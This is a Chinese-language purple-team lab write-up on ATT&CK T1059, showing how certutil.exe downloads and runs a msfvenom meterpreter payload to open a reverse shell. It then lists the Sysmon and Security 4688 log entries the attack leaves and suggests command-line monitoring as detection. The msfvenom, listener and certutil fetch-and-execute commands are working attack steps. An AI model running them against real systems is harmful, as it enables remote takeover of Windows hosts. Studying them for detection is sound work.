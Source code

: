# T1059-win-基于白名单Certutil.exe执行Payload

## 来自ATT&CK的描述

暂无合适分类，置放在此TID中

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

Certutil.exe是作为证书服务的一部分安装的命令行程序。 我们可以使用此工具在目标计算机上执行恶意EXE文件，并获取meterpreter会话。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon）

### 攻击分析

#### 生成payload.exe

通过msfvenom 生成恶意可执行文件，并使用start multi/handler获取目标计算机反向shell会话。

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.126.146 lport=1234 -f exe > shell.exe
```

#### 执行监听

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:1234

```

#### 开启小型http服务

```bash
root@12306Br0:~# python2 -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

#### 靶机执行payload

```dos
certutil.exe -urlcache -split -f http://192.168.126.146:1234/shell.exe shell.exe & shell.exe
```

#### 反弹shell

```bash
[*] Started reverse TCP handler on 192.168.126.146:1234
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:1234 -> 192.168.126.149:49172) at 2020-04-17 15:59:50 +0800
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\certutil.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: CertUtil.exe
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: CertUtil.exe
CommandLine: certutil.exe  -urlcache -split -f http://192.168.126.146:1234/shell.exe shell.exe

#win7安全日志
EventID：4688
进程信息:
新进程 ID:0xbcc
新进程名: C:\Windows\System32\certutil.exe

#windows server 2008(不含2008)以上系统可以配置审核进程创建策略，达到记录命令行参数的效果。通过命令行参数进行监控分析。
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1059:<https://attack.mitre.org/techniques/T1059/>
